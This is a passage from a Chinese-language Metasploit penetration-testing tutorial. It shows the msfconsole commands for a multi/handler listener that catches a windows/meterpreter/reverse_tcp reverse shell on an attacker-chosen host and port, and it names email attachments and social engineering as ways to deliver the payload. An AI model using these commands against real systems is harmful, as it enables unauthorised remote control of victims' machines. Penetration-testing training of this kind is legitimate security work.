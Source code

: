 #### 2. 设置监听器：

为了捕获来自生成的有效载荷的传入连接，你需要使用Metasploit框架设置一个监听器。你可以使用`exploit/multi/handler` 来实现这一点。

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Attacker IP>
set LPORT <Attacker listening port>
exploit
```

#### 3. 执行有效载荷：

现在你已经有了有效载荷和监听器，你可以将有效载荷传递给目标系统。传递的方法取决于你的具体场景，但常见的技术包括电子邮件附件、社工或者利用漏洞。

#### 4. 会话：

如果有效载荷执行成功，你应该会在你的msfconsole会话中看奥一个Meterpreter会话建立。然后，你可以使用各种Meterpreter命令与被入侵的系统交互。

## Metasploit 框架渗透实战

### 漏洞利用案例：

1. 运行Metasploit框架

```bash
sudo msfconsole
```

 ![](../../img/1_Er5lJm8u6FYexKXOoVT1Fg.webp)
